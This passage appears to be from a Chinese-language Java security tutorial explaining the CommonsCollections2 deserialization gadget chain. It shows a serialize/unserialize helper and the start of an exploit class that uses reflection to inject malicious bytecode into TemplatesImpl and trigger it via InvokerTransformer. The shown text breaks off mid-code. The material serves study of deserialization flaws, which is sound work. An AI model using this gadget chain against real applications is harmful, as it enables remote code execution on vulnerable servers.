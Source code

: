 ```java  
    }    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401171826539.png)  
### CommonsCollections2 链详解  
利用`InvokerTransformer`方法，来调用`newTransformer()`来加载恶意类的调用  
```java  
package org.example.CommonsCollections;    
    
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;    
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;    
import org.apache.commons.collections4.comparators.TransformingComparator;    
import org.apache.commons.collections4.functors.ConstantTransformer;    
import org.apache.commons.collections4.functors.InstantiateTransformer;    
import org.apache.commons.collections4.functors.InvokerTransformer;    
    
import javax.swing.text.AbstractDocument;    
import javax.xml.transform.Templates;    
import javax.xml.ws.spi.Invoker;    
import java.io.FileInputStream;    
import java.io.FileOutputStream;    
import java.io.ObjectInputStream;    
import java.io.ObjectOutputStream;    
import java.lang.reflect.Field;    
import java.nio.file.Files;    
import java.nio.file.Paths;    
import java.util.PriorityQueue;    
    
public class CommonsCollections2 {    
    public static void main(String[] args) throws Exception{    
        TemplatesImpl templatesImpl = new TemplatesImpl();    
        Class tc = templatesImpl.getClass();    
    
        Field nameField = tc.getDeclaredField("_name");    
        nameField.setAccessible(true);    
        nameField.set(templatesImpl,"test");    
    
        Field bytecodesField = tc.getDeclaredField("_bytecodes");    
        bytecodesField.setAccessible(true);    
        byte[] code = Files.readAllBytes(Paths.get("/Users/f10wers13eicheng/Desktop/JavaSecuritytalk/JavaThings/VulnDemo/src/main/java/org/example/LoaderDemo/Test.class"));    
        byte[][] codes = {code};    
        bytecodesField.set(templatesImpl,codes);    
    
        Field tfactoryField = tc.getDeclaredField("_tfactory");    
        tfactoryField.setAccessible(true);    
        tfactoryField.set(templatesImpl,new TransformerFactoryImpl());    
    
        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});    
    
```